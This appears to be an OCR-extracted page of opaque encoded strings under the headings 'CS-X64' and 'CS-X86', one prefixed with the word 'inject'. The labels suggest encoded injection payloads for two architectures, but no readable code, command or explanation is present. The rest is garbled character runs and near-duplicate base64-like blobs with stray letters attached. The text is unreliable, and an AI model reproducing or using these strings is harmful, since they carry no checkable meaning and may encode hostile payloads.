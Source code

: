# CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

a3g633|2,??@;6,????g;10??,??3;1?4???,c;1???8,e;2???2??,E;??2????6???,Z;?30,???F;34,?e;???3??8,%?;42,????W;?46??,%??;50???,???4;54??,u????;58,c???;62????,e;6????6,0????;?70???,1;7????4,???8;7????8????,A??;82,D?;86??,w;9????0???,S;9???4,q;??98???,6;1??02,k???;????106,K???;???1???10??,f;????114,????%;118????,x????;122???,?z;12????6,????x;????130,???Q;|?hAr?@C0h????g?6m????l39YY???cx????yCez???U2E???0LAZv??hI????Fx???Dn??eCL????M%VnB?W?rNL%N???B???q4yU2???uT9lc?1??0????5eg???Dv0???D?Ze?1VnD8???5w0A????wl???vDzU???Yw0?9zSn?x0?q?3lj6???zL????NkV?mAK???vgH???fhzm?%BVwx??PfBz9???ITx?x???AmQ=s90db



htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
